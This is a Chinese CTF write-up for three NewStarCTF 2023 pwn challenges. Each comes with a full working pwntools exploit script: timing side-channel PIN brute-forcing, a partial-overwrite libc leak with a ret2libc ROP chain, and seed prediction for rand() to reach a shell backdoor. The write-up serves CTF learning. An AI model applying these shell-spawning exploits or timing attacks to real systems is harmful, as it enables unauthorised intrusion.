




# newstarctf2023 week5
# login
brop 侧信道攻击
存在栈溢出，但是有 canary。
输入时可以用空格等空字符分隔输入，所以输入函数用的是 scanf，scanf 会在输入字符串后面自动添加 '\0' ，所以无法爆破 canary。于是也没办法用栈溢出了。
考虑过通过大量溢出覆盖栈高处的 TLS（Thread Local Storage）存储的 canary 值，但是好像先因为 scanf 输入字符过多崩溃了
经 Lxxxt 爷指点，发现这道题是 2023 年全国信息安全大赛原题改编。要用的是侧信道攻击法，利用程序判断密码（或 PIN 码）正确与否的时间差来推测正确的密码（或 PIN）码。
# 原理
程序有 3 个功能：
- 输入密码登陆系统
- 注册账号，但是该功能是没用的。
- 重置密码，输入 PIN6 位验证码。
其中输入密码和输入 PIN 码都是使用字符串输入，而如果程序使用的判断正确与否的逻辑是，“若第 i 位不正确，直接跳出，否则继续判断 i+1 位”，那么，在前 i-1 位正确的情况下，第 i 位为错误返回的时间应该比第 i 位为正确返回的时间快。利用这段时间可以 “逐位” 爆破密码。
因为 PIN 确定一定为 6 位数字，所以从爆破 PIN 入手。前提还有 PIN 码每次调用重置密码功能时不会重置。
利用脚本爆破。
# 过程
6 位 PIN 码，从第一位开始 0~9 测试，后面 5 位直接置 0。每次输入时记下开始时间，收到内容后记下结束时间，算出时间差。为减小因网络因素等产生的误差，每个数字测试 10 次取平均值，平均时间差最长的即为该位正确值。由此类推继续爆破后面 5 位。
如果中途返回的字符串不含 "Wrong code!" ，则说明已经爆破到正确的 PIN 码了。此时跳出爆破循环进入后续操作。
输入正确的 PIN 码后，获得修改密码的机会。修改密码后在登陆功能处输入密码，即可 getshell。

#!/usr/bin/python3 | |
from pwn import * | |
from sys import argv | |
context(os='linux',arch='amd64') | |
#context.log_level='debug' | |
def s(a): | |
p.send(a) | |
def sa(a, b): | |
p.sendafter(a, b) | |
def sl(a): | |
p.sendline(a) | |
def sla(a, b): | |
p.sendlineafter(a, b) | |
def r(): | |
p.recv() | |
def pr(): | |
print(p.recv()) | |
def ru(a): | |
return p.recvuntil(a) | |
def inter(): | |
p.interactive() | |
def debug(): | |
gdb.attach(p) | |
pause() | |
def get_addr(): | |
return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) | |
def get_sb(): | |
return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00')) | |
def getpin(pin): | |
subtime = -1 | |
res ='' | |
for c in a: | |
pin_o = pin+c+'0'*(5-len(pin)) | |
sum=0 | |
for _ in range(10): | |
ru('>') | |
sl(b'3') | |
ru(b"Input code:") | |
start=time.time() | |
sl(pin_o) | |
rev=p.recv(19) | |
if b"Wrong code!" in rev: | |
pass | |
else: | |
print(pin_o) | |
p.interactive() | |
break | |
end=time.time() | |
sum+=(end-start) | |
print(pin_o,sum) | |
avgtime=sum | |
if(avgtime>subtime): | |
subtime=avgtime | |
res=c | |
return res | |
a='0123456789' | |
p= remote("node4.buuoj.cn",27984) | |
pin='' | |
for i in range(6): | |
pin+=getpin(pin) | |
print("PIN:",pin) | |
#后面没用了 懒得写跳转 | |
sl(b"123456") | |
ru(b'>') | |
sl(b'2') | |
p.interactive() |
# no_ouput
full_RELRO ret2libc
这道题开了 Full RELRO 保护，got 表一开始就已经填完并且只读了。但是没有开 PIE，要利用程序本身已有的代码还是很方便的。

同时，程序没有输出函数，got 表只有 read 和 setvbuf。主程序中 read 函数可以进行栈溢出。
 # 漏洞
主函数在执行 read 函数后，将 read 函数的真实地址赋给了名为 a 的全局变量。这时候，虽然没有输出函数，但因为 write 函数和 read 函数在 libc 中相邻很近，我们便可以通过只修改 a 的最低两位，然后跳到 write 函数，利用其泄露 libc 地址。


# 利用
首先栈溢出，返回到 read 函数，设置写入位置为 a 的地址。真实地址低 3 位固定，第 4 位随机，所以需要爆破。
随后利用 csu 调用 a 处储存的地址，以及配置相关参数。这里便是调用 write 函数，输出的内容为 a，即为 write 的真实地址，然后返回 main 函数。
利用 write 地址算出 system 地址和 "/bin/sh" 地址，再次溢出，getshell。

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug',arch='amd64') | |
mode = 0 | |
if (len(sys.argv)>1): | |
mode = int(sys.argv[1]) | |
if mode == 0: | |
libc=ELF('./libc-2.31.so') | |
e = ELF('./pwn') | |
else: | |
libc=ELF('/glibc-all-in-one/2.31-0ubuntu9.7_amd64/libc.so.6') | |
e = ELF('./pwn_pe') | |
write_la = libc.sym['write'] | |
offset = 0x070 + 8 | |
main_a = e.sym['main'] | |
read_p = e.plt['read'] | |
prdi = 0x0401253 | |
rsi_r15 = 0x401251 | |
ret = 0x040101a | |
target = 0x404050 | |
csu_front_addr = 0x0401230 | |
csu_end_addr = 0x040124a | |
def csu(rbx, rbp, r12, r13, r14, r15): | |
# pop rbx,rbp,r12,r13,r14,r15 | |
# rbx should be 0, | |
# rbp should be 1,enable not to jump | |
# r15 should be the function we want to call | |
# rdi=edi=r12d | |
# rsi=r13 | |
# rdx=r14 | |
payload = p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15) | |
payload += p64(csu_front_addr) | |
payload += b'a' * 0x38 | |
return payload | |
by=0 | |
while(by<0x100): | |
if mode == 0: | |
p=remote('node4.buuoj.cn',26547) | |
else: | |
p=process('./pwn_pe') | |
payload = offset * b'a' + p64(rsi_r15) + p64(target) + p64(0) + p64(read_p) | |
payload += csu(0,1,1,target,0x10,target) + p64(main_a) | |
p.send(payload) | |
if mode==3: | |
input('pause') | |
else: | |
sleep(0.02) | |
try: | |
payload = p8(write_la&0xff) + p8(by) | |
p.send(payload) | |
write_a = u64(p.recvuntil(b'\x7f').ljust(8,b'\0')) | |
print('\n\n[+] the write addrees is %#x'%write_a) | |
break | |
except: | |
p.close() | |
by+=1 | |
if (mode==2): | |
gdb.attach(p,'b read') | |
libcbase = write_a - libc.sym['write'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
payload = b'a'*offset + p64(prdi) + p64(bs_a) + p64(ret) + p64(sys_a) | |
p.send(payload) | |
p.interactive() |
# planet
random cdll
# 分析
程序大概是一个模拟星际旅行的程序。其中，星球之间利用链表管理。有个类似菜单的功能函数，其中包括后门函数。星球名称和后门函数的验证密码均用随机数模 26 然后从字母表中选值。

# 利用
与 week1 的 random 思路相同。
程序利用 time(0) 作为随机数种子，因此利用 cdll 库函数，在程序执行 srand(time(0)) 时同步执行，即可获得与之相同的随机种子。
先生成 11*5=55 个随机数，对应 11 课星球的名称。然后接下来的 30 位即为后门函数的密码。调用后门函数，输入计算出来的密码，直接 getshell。

#!/usr/bin/python3 | |
from pwn import * | |
from ctypes import * | |
context(log_level='debug') | |
e=ELF('./pwn') | |
#p=process('./pwn') | |
e=cdll.LoadLibrary('libc.so.6') | |
p=remote('node4.buuoj.cn',29021) | |
#gdb.attach(p, 'b ') | |
password = b'secret_passwd_anti_bad_guys' | |
p.sendlineafter(b'Passwd: ',password) | |
e.srand(e.time(0)) | |
for i in range(5*11): | |
e.rand() | |
p.recvuntil(b'What is your next move? (Help)\n>') | |
p.sendline(b'Admin') | |
payload = b'' | |
for i in range(30): | |
payload += chr(97+(e.rand()%26)).encode() | |
p.recvuntil(b'Insert the secret passwd\n> ') | |
print('the passwd is: ' + payload.decode()) | |
p.sendline(payload) | |
p.recvuntil(b'The command to exec\n> ') | |
p.sendline(b'/bin/sh\0') | |
p.interactive() |